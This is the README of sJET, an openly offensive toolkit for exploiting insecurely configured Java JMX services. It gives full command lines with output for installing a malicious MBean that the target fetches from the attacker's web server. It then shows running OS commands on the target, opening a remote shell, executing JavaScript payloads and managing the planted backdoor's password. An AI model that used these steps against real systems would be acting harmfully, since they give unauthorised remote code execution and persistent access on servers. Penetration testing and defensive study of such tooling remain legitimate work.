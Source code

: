 # sJET by siberas

siberas JMX Exploitation Toolkit

sJET allows an easy exploitation of insecure configured JMX services. Additional background
information can be found [here](https://www.optiv.com/blog/exploiting-jmx-rmi) and [here](https://www.owasp.org/images/c/c1/JMX_-_Java_Management_Extensions_-_Hans-Martin_Muench.pdf).

## Prerequisites

* [Jython 2.7](http://www.jython.org/)

## Usage

SJET implements a CLI interface (using [argparse](https://docs.python.org/3/library/argparse.html)):

```
jython sjet.py targetHost targetPort password MODE (modeOptions)
```
Where

* **targetHost** -  the target IP address
* **targerPort** - the target port where JMX is running
* **password** - the password that is/was set during installation
* **MODE** - the script mode
* **modeOptions** - the options for the mode selected

### Modes and modeOptions

* **install** - installs the payload in the current target
  * *payload_url* - full URL to load the payload
  * *payload_port* - port to load the payload
* **uninstall** - uninstalls the payload from the current target
* **password** -  change the password on a already deployed payload
  * *password* - the new password
* **command** -  runs the command *CMD* in the targetHost
  * *CMD* - the command to run
* **shell** - starts a simple shell in targetHost (with the limitations of java's Runtime.exec())
* **javascript** - runs a javascript file *FILENAME* in the targetHost
  * *FILENAME* - the javascript to be run


## Example


### Installing the payload MBean on a vulnerable JMX service

In the following example, the vulnerable JMX service runs on the 192.168.11.136:9991, the attacker has
the IP address 192.168.11.132. The JMX service will connect to the web service of the attacker to download
the payload jar file. sJET will start the necessary web service on port 8000.

After the successful installation of the MBean, the default password is changed to the password that was provided
at the command line ("super_secret").

```
h0ng10@rocksteady:~/sjet$ jython sjet.py 192.168.11.136 9991 super_secret install http://192.168.11.132:8000 8000
sJET - siberas JMX Exploitation Toolkit
=======================================
[+] Starting webserver at port 8000
[+] Connecting to: service:jmx:rmi:///jndi/rmi://192.168.11.136:9991/jmxrmi
[+] Connected: rmi://192.168.11.132  1
[+] Loaded javax.management.loading.MLet
[+] Loading malicious MBean from http://192.168.11.132:8000
[+] Invoking: javax.management.loading.MLet.getMBeansFromURL
192.168.11.136 - - [22/Aug/2017 22:38:00] "GET / HTTP/1.1" 200 -
192.168.11.136 - - [22/Aug/2017 22:38:00] "GET /siberas_mlet.jar HTTP/1.1" 200 -
[+] Successfully loaded MBeanSiberas:name=payload,id=1
[+] Changing default password...
[+] Loaded de.siberas.lab.SiberasPayload
[+] Successfully changed password

h0ng10@rocksteady:~/sjet$
```

### Running the command 'ls -la' in a Linux target:

After the payload was installed, we can use it to execute OS commands on the target.

```
h0ng10@rocksteady:~/sjet$ jython sjet.py 192.168.11.136 9991 super_secret command "ls -la"
sJET - siberas JMX Exploitation Toolkit
=======================================
[+] Connecting to: service:jmx:rmi:///jndi/rmi://192.168.11.136:9991/jmxrmi
[+] Connected: rmi://192.168.11.132  2
[+] Loaded de.siberas.lab.SiberasPayload
[+] Executing command: ls -la
total 16
drwxr-xr-x  4 root    root    4096 Aug 22 16:12 .
drwxr-xr-x 66 root    root    4096 Aug 22 16:12 ..
lrwxrwxrwx  1 root    root      12 Mär 29 01:46 conf -> /etc/tomcat8
drwxr-xr-x  2 tomcat8 tomcat8 4096 Mär 29 01:46 lib
lrwxrwxrwx  1 root    root      17 Mär 29 01:46 logs -> ../../log/tomcat8
drwxrwxr-x  3 tomcat8 tomcat8 4096 Aug 22 16:12 webapps
lrwxrwxrwx  1 root    root      19 Mär 29 01:46 work -> ../../cache/tomcat8


[+] Done
h0ng10@rocksteady:~/sjet$
```
### Running ping in shell mode on a target

If you don't want to load Java for every command, you can use the "shell mode"
to get a limited command shell.

```
h0ng10@rocksteady:~/sjet$ jython sjet.py 192.168.11.136 9991 super_secret shell
sJET - siberas JMX Exploitation Toolkit
=======================================
[+] Connecting to: service:jmx:rmi:///jndi/rmi://192.168.11.136:9991/jmxrmi
[+] Connected: rmi://192.168.11.132  3
[+] Use command 'exit_shell' to exit the shell
>>> ping -c 3 127.0.0.1
[+] Loaded de.siberas.lab.SiberasPayload
[+] Executing command: ping -c 3 127.0.0.1
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.075 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.046 ms
64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.044 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2050ms
rtt min/avg/max/mdev = 0.044/0.055/0.075/0.014 ms


>>> exit_shell
[+] Done
h0ng10@rocksteady:~/sjet$
```

### Invoke a JavaScript payload on a target:

The example script "javaproperties.js" displays the Java properties of the vulnerable
service. It can be invoked as follows:

```
h0ng10@rocksteady:~/sjet$ jython sjet.py 192.168.11.136 9991 super_secret javascript scripts/javaproperties.js
sJET - siberas JMX Exploitation Toolkit
=======================================
[+] Connecting to: service:jmx:rmi:///jndi/rmi://192.168.11.136:9991/jmxrmi
[+] Connected: rmi://192.168.11.132  4
[+] Loaded de.siberas.lab.SiberasPayload
[+] Executing script
java.vendor=Oracle Corporation
sun.java.launcher=SUN_STANDARD
catalina.base=/var/lib/tomcat8
sun.management.compiler=HotSpot 64-Bit Tiered Compilers
catalina.useNaming=true
os.name=Linux
...
java.vm.name=OpenJDK 64-Bit Server VM
file.encoding=UTF-8
java.specification.version=1.8


h0ng10@rocksteady:~/sjet$
```

### Change the password

Change the existing password ("super_secret") to "this-is-the-new-password":

```
h0ng10@rocksteady:~/sjet$ jython sjet.py 192.168.11.136 9991 super_secret password this-is-the-new-password
sJET - siberas JMX Exploitation Toolkit
=======================================
[+] Connecting to: service:jmx:rmi:///jndi/rmi://192.168.11.136:9991/jmxrmi
[+] Connected: rmi://192.168.11.132  6
[+] Loaded de.siberas.lab.SiberasPayload
[+] Successfully changed password

[+] Done
h0ng10@rocksteady:~/sjet$
```

### Uninstall the payload MBean from the target


Uninstall the payload 'Siberas' from the target:

```
minmaxer@prellermbp:~/sjet$ jython sjet.py 192.168.1.101 9010 super_secret uninstall
sJET - siberas JMX Exploitation Toolkit
=======================================
[+] Connecting to: service:jmx:rmi:///jndi/rmi://192.168.1.101:9010/jmxrmi
[+] Connected: rmi://192.168.1.1  16
[+] MBean correctly uninstalled
minmaxer@prellermbp:~/sjet$
```
	

## Contributing

Feel free to contribute.

## Authors

* **Hans-Martin Münch** - *Initial idea and work* - [h0ng10](https://twitter.com/h0ng10)
* **Patricio Reller** - *CLI and extra options* - [preller](https://github.com/preller)
* **Ben Campbell** - *Several improvements* - [Meatballs1](https://github.com/Meatballs1)

See also the list of [contributors](https://github.com/h0ng10/sjet/graphs/contributors) who participated in this project.

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.
